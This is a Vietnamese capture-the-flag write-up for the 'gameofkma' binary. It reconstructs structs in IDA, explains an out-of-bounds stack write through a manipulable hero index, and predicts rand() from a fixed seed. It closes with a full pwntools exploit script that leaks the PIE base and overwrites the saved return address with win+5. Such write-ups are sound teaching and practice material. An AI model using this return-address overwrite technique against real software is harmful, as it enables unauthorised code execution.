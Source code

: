 # tái định nghĩa cấu trúc sử dụng IDA + ret2win

Kiểm tra các chế độ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/235029207-61b42631-95d3-487e-88b3-8390969e6474.png)

Mở IDA lên và kiểm tra luồng thực thi của chương trình ta có một main rất dài và nhiều sub_function khác , sau khi kiểm tra tất cả các hàm thì ta phát hiện có một hàm vô cùng thú vị đó là 

![image](https://user-images.githubusercontent.com/93699926/235029474-20b42f29-c88e-4c0f-bebb-1b3eff5bc725.png)

sub_1D6D() hay đơn giản là hàm win() sẽ đọc flag và in nó ra cho ta 

trong hàm main có rất nhiều struct cần tái cấu trúc lại 3 struct đó sẽ như sau, taị lúc viết bài mình lỡ xóa mất file ida nên mình sẽ viết lại bằng code C như sau:

![image](https://user-images.githubusercontent.com/93699926/235030552-c35ad9f6-e28c-42ac-8dd1-0bdb40b70d89.png)

![image](https://user-images.githubusercontent.com/93699926/235030602-07f188d8-c135-472c-b2c8-710e52e28943.png)

ta có thể thấy là Monster.ptr -> địa chỉ của biến a10 và khi ta tạo monsters thì nó sẽ in ra địa chỉ đó cho chúng ta => và ta sẽ có được exe leak =>> đơn giản sau đó sẽ tính được exebase 

Sau khi khởi tạo xong TROOPER ,MONSTER,HERO thì chúng ta sẽ đến với sub_1799:

![image](https://user-images.githubusercontent.com/93699926/235031050-1e9c5d1a-b615-4544-8329-4f39481c3c5d.png)

hàm này như sau:

![image](https://user-images.githubusercontent.com/93699926/235031222-67a1c2a7-6017-4508-8ca7-d32188333981.png)

![image](https://user-images.githubusercontent.com/93699926/235031278-c645cf38-b76d-4930-8580-dabaa1e18c12.png)

![image](https://user-images.githubusercontent.com/93699926/235031312-80d8149f-7902-4541-9200-98bfbe6cc870.png)

Ok ở hàm naỳ thì chúng ta sẽ có 2 lựa chọn đó là attack monsters hay attack strooper:

Nếu ta attack strooper thì hero[0].index+=4 mỗi lần ta tấn công 

Còn nếu ta tấn công Monster thì chương trình sẽ bắt ta nhập một số random nếu đoán đúng thì monster.health sẽ bị -=damn +special damn của hero
 và nếu như ta tiêu diệt hết quái vật thì hero[0].index-=2
 
 ![image](https://user-images.githubusercontent.com/93699926/235032121-1a845704-aa75-428c-9040-65371f9fba6a.png)

và ở đây ta sẽ có lỗi out of bound khi mà con trỏ v17 sẽ chỉ đến địa chỉ của s[hero[0].index],sau đó nó sẽ khi các giá trị 8 byte của hero.name vô s[0]
và rồi 8 byte sau vô s[1].
Đối chiếu lên thì ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/235032460-9e1c611a-6d9e-40c7-9eb2-d53fbb52b267.png)
 
ta thấy thì s được lưu trên stack ở vị trí [rbp-0x120] mà s được khai báo là _OWORD 16 bytes .
Nên ta có thể tính được như sau 0x120/0x10 =18 (0x12) vậy nếu ta có thể thay đổi hero.index thành 0x12 thì ta sẽ có thể ghi lên địa chỉ rbp và ngay sau rbp sẽ là saved rip của main

Và để thay đổi hero.index thì không khó ta chỉ cần tấn công strooper 5 lần => index=20
đánh tháng monster index-=2(=18). và để đánh thắng quái thì ta cần đoán đúng số random . ở đây vì khi chương trình chạy srand đã gieo seed =0x1337 > Vậy để đoán đúng tì ta chỉ cần gieo đúng seed đó và gọi random()

để có thể dùng được các hàm trong thư viện code C thì ta chỉ cần làm như sau 

```python

from ctypes import*
libc = ELF('./libc-2.27.so', checksec=False)
glibc = cdll.LoadLibrary(libc.path)
glibc.srand(0x1337)
val=glibc.rand()%2022 # chương trình nó sẽ lấy số random rồi chia lấy dư cho 2022 nữa
```

và lưu ý khi ta chạy chương trình và thay đổi địa chỉ trả về thành hàm win thì thay vì nhảy vô <win+0> thì hãy nhảy vô <win +5> pass qua đoạc push rbp đê tránh gặp lỗi segfault khi mà giá trị stack có đuôi 0xffffx8
, ta muốn nó có đuôi =0xffffx0

ok , vậy ta sẽ có script như sau :
full script in r.py
```python
from pwn import *
from ctypes import*
libc = ELF('./libc-2.27.so', checksec=False)
glibc = cdll.LoadLibrary(libc.path)
context.binary=exe=ELF('./gameofkma_patched',checksec=False)
glibc.srand(0x1337)
p=process(exe.path)
def GDB():
    gdb.attach(p,gdbscript='''
        c
        ''')
    input()
GDB()

p.sendlineafter(b"How many trooper(s) do you want?(0-5)\n",b"5")
p.sendlineafter(b"How many monster do you want?(0-2)\n",b"2")
leak_list=p.recvuntil(b"How many hero",drop=True).split(b"\n")
#print(leak_list)
leak1=int.from_bytes(leak_list[0],"little")
exe.address=leak1-0x1e8a
leak2=int(leak_list[1].split(b' ')[1],16)
log.info('[+]leak1:'+hex(leak1))
log.info('[+]leak2:'+hex(leak2))
log.info('[+]exe base:'+hex(exe.address))
main=exe.address+0x1E8A
log.info('[+]main:'+hex(main))
b1=exe.address+0x2412 #b1  là break ở vị trí leave ret của main
log.info('[+]b1:'+hex(b1))
p.sendlineafter(b"do you want?(0-2)\n",b"1")
pop_rdi=exe.address+0x0000000000002483
ret=exe.address+0x000000000000101a
win=exe.address+0x1D6D
input("enter")
payload=p64(ret)+p64(win+5)
p.sendafter(b'hero?\n', payload)
for i in range(5):
	p.sendlineafter(b"Do you wanna attack [1]monster or [0]trooper?(1/0)",b"0")

glibc.srand(0x1337)
for i in range(8):
	p.sendlineafter(b"Do you wanna attack [1]monster or [0]trooper?(1/0)",b"1")
	val=glibc.rand()%2022
	p.sendlineafter(b"think? > ",f"{val}".encode())

p.interactive()
```




